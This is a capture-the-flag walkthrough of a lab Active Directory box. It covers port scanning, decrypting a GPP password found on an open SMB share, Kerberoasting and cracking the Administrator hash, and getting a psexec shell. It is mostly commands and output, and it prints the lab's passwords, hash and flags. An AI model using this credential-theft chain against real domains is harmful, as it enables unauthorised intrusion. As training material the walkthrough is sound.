





# Scanning

## Rustscan

```bash
rustscan -a 10.10.10.100 -b 100
```


- Found a whopping 23 open ports! But who has time to check them all? Let's focus on the juicy ones.
- Time to be selective and target what actually matters. Quality over quantity, folks!

## Nmap

- Let's hit it with the classic nmap scan:

```bash
nmap -sC -sV -T5 -oA nmap/initials 10.10.10.100
```

```bash
# Nmap 7.94SVN scan initiated Wed May 21 15:22:32 2025 as: nmap -sC -sV -T5 -oA nmap/initials 10.10.10.100
Warning: 10.10.10.100 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.100 (10.10.10.100)
Host is up (0.19s latency).
Not shown: 852 closed tcp ports (conn-refused), 132 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-21 09:53:33Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-21T09:54:32
|_  start_date: 2025-05-21T09:50:49
|_clock-skew: 2s
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 21 15:24:41 2025 -- 1 IP address (1 host up) scanned in 129.89 seconds
```

- Hello Active Directory, my old friend! We've got SMB, Kerberos, LDAP... the whole Windows domain party pack!
- Running a specific script on port 445 confirms it's using SMB v2:

```bash
nmap --script safe -p 445 10.10.10.100 -T5 
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-21 16:16 IST
Pre-scan script results:
| targets-asn: 
|_  targets-asn.asn is a mandatory parameter
|_hostmap-robtex: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
|_http-robtex-shared-ns: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
Nmap scan report for active.htb (10.10.10.100)
Host is up (0.47s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
|_smb-enum-services: ERROR: Script execution failed (use -d to debug)

Host script results:
| port-states: 
|   tcp: 
|_    open: 445
| smb-protocols: 
|   dialects: 
|     2:0:2
|_    2:1:0
| smb2-time: 
|   date: 2025-05-21T10:47:09
|_  start_date: 2025-05-21T09:50:49
| smb-mbenum: 
|_  ERROR: Failed to connect to browser service: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
| dns-blacklist: 
|   PROXY
|     tor.dan.me.uk - FAIL
|     dnsbl.tornevall.org - FAIL
|     socks.dnsbl.sorbs.net - FAIL
|     misc.dnsbl.sorbs.net - FAIL
|     http.dnsbl.sorbs.net - FAIL
|   SPAM
|     list.quorum.to - FAIL
|     sbl.spamhaus.org - FAIL
|     l2.apews.org - FAIL
|     all.spamrats.com - FAIL
|     spam.dnsbl.sorbs.net - FAIL
|     dnsbl.inps.de - FAIL
|     bl.spamcop.net - FAIL
|_    bl.nszones.com - FAIL
|_msrpc-enum: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_fcrdns: FAIL (No A record)
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
|_clock-skew: 2s
| unusual-port: 
|_  WARNING: this script depends on Nmap's service/version detection (-sV)
| smb2-capabilities: 
|   2:0:2: 
|     Distributed File System
|   2:1:0: 
|     Distributed File System
|     Leasing
|_    Multi-credit operations

Post-scan script results:
| reverse-index: 
|_  445/tcp: 10.10.10.100
Nmap done: 1 IP address (1 host up) scanned in 67.15 seconds
```
# Enumeration

## SMB Shares Exploration

- When SMB port is open, it's like finding an unlocked door. Let's check what shares are available using `smbmap`:

```bash
smbmap -H 10.10.10.100
```


- Look at that! We've got some readable shares! Time to go treasure hunting.
- Let's try accessing with `smbclient` using a blank password (because security is clearly optional):


- Success! Found an `active.htb` directory. Let's mount this in our file manager and copy it locally:

```bash
smb://10.10.10.100/Replication
```


## Analyzing Directory from SMB Share

- After some digital spelunking in the directories (aka clicking around aimlessly), I found credentials gold:
  - Located at: `active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml`
  - Found creds: `active.htb\SVC_TGS` : `edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`
  - This is GPP-encrypted password stored in the GPP XML.
  - The encryption is **weak (AES 256, static key)** — Microsoft published the key, so we can decrypt it easier than making instant noodles.


```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">

	<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
	
		<Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
		
	</User>
	
</Groups>
```

# Exploitation

## Password Decryption

- Time to crack that "encryption" with `gpp-decrypt` (which is really just asking nicely for the password):

```bash
sudo apt install gpp-decrypt
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```


```yml
Decrypted User (SVC_TGS) Password: GPPstillStandingStrong2k18
```

- Seriously? "GPPstillStandingStrong2k18"? That's like naming your password "ThisIsDefinitelyNotMyPassword2k18". Security through obscurity at its finest!

## Exploring SMB Shares with User (SVC_TGS) Credentials


- That "Users" share is looking mighty interesting. Let's take a peek:

```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18 
```


- User Flag captured like a Pokémon:

```lua
28dfe94c068ab577d1ffc5233ae55bbf
```

# Post Exploitation

## Kerberoasting

### Background

- **Kerberos is a protocol for authentication used in Windows Active Directory environments** (though it can be used for auth to Linux hosts as well).
- In 2014, **Tim Medin presented an attack on Kerberos he called** [Kerberoasting](https://www.redsiege.com/wp-content/uploads/2020/08/Kerberoastv4.pdf).
- It's like asking for the keys to the kingdom, and then making a copy while nobody's looking.
- **When you want to authenticate to a service using Kerberos:**
  1. You contact the Domain Controller and say "I want to talk to ServiceX"
  2. The DC encrypts a response ticket using the service's password hash
  3. You're supposed to forward this ticket to the service
- **But in Kerberoasting, we take a detour:**
  - Instead of sending the ticket to the service, we try to crack the encryption offline
  - If we succeed, we get the service account's password!
- **Most of the time you need an active domain account to start Kerberoasting**, but if the DC has ["Do not require Kerberos preauthentication"](https://harmj0y.medium.com/roasting-as-reps-e6179a65216b) enabled, you can get tickets without even having an account. It's like the security guard leaving the backdoor unlocked.

### Getting the Hash

- I'll use `impacket-GetUserSPNs` to hunt for service accounts associated with regular users. It's like fishing for admin accounts:

```bash
impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```


- Jackpot! We found the Administrator account!
- Hash type: `Kerberos 5 TGS-REP etype 23`

```lua
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$33896a188ef8c0ac270415aa464f2700$033ddece02c45d6cdf5dcbb0b8b840f547597db2d66c12ddd9ed70b85a5397285a8ece990722a0aaf98fd8bb7391986d9b47176f84cf4f487563e4cf9042dd872f8f86f3d6e142a5f83bd754509bbe891ce4e451539f6dbaa343b45fa5ed7dd93aec8232b3f2521fca6e3d77308e6d6b67de5e664e4e18128a8386f4caf8d0e1a9bb2d24503183daa7fee8567e184cb136b76095aad78fc075ffb0ce44d96bbf8603badf64a92fbce26da34ad4f1916dd8e8f0dcfef381072361bc087b2b52655e50fb7c8ee12aada18c6c71bac61ce74ee912dfb00d37fb6f9dcde80ca76df4a2d693b3c2bf8ca262ee6d6bdc38784fb59b57af97aa7ca01e7896ac970fd13de4cbbc0e5b956b593d1fe6aa7e13062bdeb02a29688f202a9c3e7023d8a7ddd6b6177952cb07e588118443f648f0a028652679a5ccdc0dd97eda01157be28c93d1b8c2a89486042355c44f24b33aea72b12b3682e1f50b554ab4adae9963ccbe635418b8fa8023340e28782108b02d427d0fa960fb171791330eb228d4ace8536344e56537843f15a71cb597d9603d2e0d53aa2c4294a2c8e39b6976090022d084a46cc3061df8b31a073eab6c9d9352e1abf7858400b4c8481354882041d5dd605327f631c92eecdd12af1811d614d997707b8a8bfa84db56b4277095fa25a0d309e726f39ce8abe6ebda96f2ccd0563fc64fdbe583abb1eee5611da8855ce857ba8490e3700bf894ef285ed6ddc51ac9fe2a33d919e9d2fecb33c339fce668db4c62a3225be525b4323af7d54898d3bc3257bcf7aca8d7007edd8bcb6c6b49ecf0ff0eb0e6e902ff738fa4f6a3266e37277794dd5f8af6dc54ea85f6fbc508bd6ac07a309c29599fd485e2fb42b01fd43da96307b689de4f58e4c6b4a37d202a6b6a0b897683c9ead74f11dc9910e0cfd524ff5cba7eb78a1e29d5ffa273b440837f82991b6a818399a336949cdbc7330c92912d3cfb93d08ca519a8ba45db4871b1d4dec73444187b0de23d0b55ab3374a5792e6ece543e2f08ce057dae78356fadc79ea1a1717473ec818d022c6d1d3816242b6c9c9aec6d2aa50a82e21cb1db893fc20fdfd95863a4bb6d7cc0d8e8c681fba98de5880ee3b902bb49f40b152639c4918b65262333149dcf477ee59ffbc0ab3d98a6cf35ad2023eeff90303b016d7aa616ed95262fa669ad7d2e6a2f6a527667ae4d5b517e3a6e61ee6dba22c6ddad1144d51888a368b086c3b2d0f07b4cdf95133e73a64d
```

- Time to transfer this hash to my host machine and crack it with `hashcat`. It's like trying to guess someone's birthday based on their age:

```bash
hashcat.exe -m 13100 -o cracked.txt -a 0 hash.txt H:Cyber_Stuff\rockyou.txt
```




```yml
Cracked Administrator Password: Ticketmaster1968
```

- "Ticketmaster1968"? Sounds like someone's favorite concert booking service and birth year. Security teams hate this one simple trick!

## Exploring SMB Shares with Administrator Credentials

- Now let's see what the boss has in their files:

```bash
smbclient //10.10.10.100/Users -U active.htb\\Administrator%Ticketmaster1968 
```



- Root Flag acquired! Mission accomplished:

```yml
469fef3243dc891ed7390a978bcfbc09
```

## Getting System Shell

- Let's get a proper shell to celebrate our victory:

```bash
impacket-psexec active.htb/administrator@10.10.10.100
```



- And just like that, we're the kings of the Active Directory castle! Time to party like it's 1968! 🎉